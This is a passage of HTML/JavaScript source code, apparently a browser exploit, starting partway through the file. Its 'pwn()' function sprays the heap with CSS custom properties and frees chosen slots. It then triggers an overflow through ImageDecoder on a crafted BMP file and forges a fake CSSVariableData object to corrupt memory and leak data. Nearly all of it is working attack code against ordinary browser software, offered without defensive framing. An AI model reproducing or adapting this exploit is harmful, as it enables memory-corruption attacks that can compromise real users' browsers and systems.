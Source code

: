 ```html
      }
      await sleep(500);
    }

    async function pwn() {
      console.log("start");
      let div0 = document.getElementById('div0');
      for (let i = 0; i < 30; i++) {
        div0.style.setProperty(`--sprayA${i}`, kCSSString);
        div0.style.setProperty(`--sprayC${i}`, kCSSStringCross0x2000);
        div0.style.setProperty(`--sprayB${i}`, kCSSStringHRTF);
      }

      for (let i = 0; i < 50; i++) {
        for (let j = 0; j < 4; j++) {
          // spraying allocation of 2 different size spans
          // very close to 100% of attempts, the same object is allocated
          // after a different sized slot
          const CSSValName = `${i}.${j}`.padEnd(0x7fcc, 'A');
          div0.style.setProperty(`--a${i}.${j}`, CSSValName);
          const CSSValName2 = `${i}.${j}`.padEnd(0x1fcc, 'C');
          div0.style.setProperty(`--c${i}.${j}`, CSSValName2);
        }
        for (let j = 0; j < 64; j++) {
          const CSSValName = `${i}.${j}`.padEnd(0x414, 'B');
          div0.style.setProperty(`--b${i}.${j}`, CSSValName);
        }
      }

      for (let i = 10; i < 30; i++) {
        div0.style.removeProperty(`--a${i}.2`);
      }
      for (let i = 46; i > 20; i--) {
        div0.style.removeProperty(`--c${i}.0`);
      }
      gc(); await sleep(500);

      console.log("overflowing...");
      fetch("/bad.bmp").then(async response => {
        let rs = getComputedStyle(div0);
        let imageDecoder = new ImageDecoder({
          data: response.body,
          type: "image/bmp"
        });
        increase_refs(0xff02); // overflow will overwrite 0xff02 to 0xff00

        imageDecoder.decode().then(async () => {
          gc(); gc();
          await sleep(2500);
          let ab = new ArrayBuffer(0x600);
          let view = new Uint32Array(ab);

          // fake CSSVariableData
          view[0] = 1; // ref_count
          const newCSSVarLen = 0x19000;
          // kMaxVariableBytes
          // console.assert(newCSSVarLen <= 2097152, 'CSSLen too long');
          // length and flags, set is_8bit_
          view[1] = newCSSVarLen | 0x01000000;
          for (let i = 2; i < view.length; i++)
            view[i] = i;
          await allocAudioArray(0x2000, ab, 1);
          leak();
```